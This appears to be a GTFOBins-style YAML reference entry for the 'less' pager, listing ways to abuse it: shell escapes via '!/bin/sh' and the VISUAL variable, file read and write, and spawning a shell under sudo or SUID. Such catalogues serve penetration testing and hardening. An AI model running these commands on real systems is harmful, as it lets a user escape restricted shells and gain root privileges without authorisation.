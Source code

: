 ```yaml
---
functions:
  shell:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
  file-write:
    - code: |
        echo DATA | less
        sfile_to_write
        q
  sudo:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid:
    - code: ./less file_to_read
---
```


